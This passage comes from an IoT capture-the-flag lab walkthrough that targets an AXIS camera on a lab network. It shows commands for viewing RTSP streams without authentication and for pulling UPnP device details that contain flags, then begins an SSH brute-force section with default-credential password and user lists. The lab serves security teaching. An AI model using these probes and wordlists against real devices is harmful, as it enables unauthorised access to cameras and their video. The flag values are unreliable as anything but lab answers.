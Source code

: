 ```bash
# Try to access stream without authentication
ffplay rtsp://192.168.1.132:554/stream1
# or
vlc rtsp://192.168.1.132:554/stream1

# Get stream description (SDP)
curl -i "rtsp://192.168.1.132:554/stream1" -X DESCRIBE
```

### UPnP Service Discovery (Port 1900)

```bash
# Access UPnP device description
curl http://192.168.1.132:1900/device.xml
# or via HTTP
curl http://192.168.1.132/upnp/device.xml
```

**Expected Output:**
```xml
<?xml version="1.0"?>
<device>
  <deviceType>urn:schemas-upnp-org:device:Basic:1</deviceType>
  <friendlyName>AXIS Camera</friendlyName>
  <manufacturer>AXIS Communications</manufacturer>
  <modelName>P1435-LE</modelName>
  <modelNumber>P1435-LE</modelNumber>
  <serialNumber>ACCC8EFLAG{TREEBEARD71974880}</serialNumber>
  <UDN>uuid:1234-5678-9012-FLAG{TREEBEARD}</UDN>
</device>
```

> 🏁 **FLAG #9 FOUND!**
> **Flag**: FLAG{T***********0}
> **Learning Objective**: UPnP information disclosure
> **OWASP IoT**: #9 - Insecure Default Settings

### SSH Brute Force Attack

#### Why SSH is a Prime Target
- Root access provides complete control
- IoT devices often use weak passwords
- Default credentials are common
- SSH provides stable shell access

```bash
# Create targeted password list for AXIS cameras
cat > axis_passwords.txt << EOF
pass
root
admin
password
Password123!
axis
camera
12345
admin123
EOF

# Create user list
cat > axis_users.txt << EOF
root
admin
operator
service
```
